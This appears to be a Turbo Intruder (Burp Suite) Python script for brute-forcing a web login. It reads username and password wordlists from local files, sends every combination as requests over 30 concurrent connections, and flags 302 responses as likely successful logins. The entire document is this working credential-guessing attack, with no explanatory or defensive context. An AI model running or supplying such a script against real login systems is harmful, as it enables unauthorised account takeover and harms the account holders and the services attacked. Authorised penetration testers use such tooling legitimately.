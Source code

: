 from urllib import quote

def password_brute(target,engine):
    for word in open('/Users/lxj/Desktop/2.txt'):
        engine.queue(target.req, quote(word.rstrip()))


def user_brute(target,engine):
    for word in open('/Users/lxj/Desktop/1.txt'):
        engine.queue(target.req, quote(word.rstrip()))
 
def user_password_brute(target,engine):
    for password in open('/Users/lxj/Desktop/2.txt'):
        for user in open('/Users/lxj/Desktop/1.txt'):
            engine.queue(target.req,[quote(user.rstrip()),quote(password.rstrip())])


def queueRequests(target,wordlists):
    engine = RequestEngine(endpoint=target.endpoint,
            concurrentConnections=30,
            requestsPerConnection=100,
            pipeline=False
            )
    #user_brute(target,engine)
    #password_brute(target,engine)
    user_password_brute(target,engine)


def handleResponse(req,interesting):
# currently available attributes are req.status, req.wordcount, req.length and req.response
    if req.status == 302:
        table.add(req)

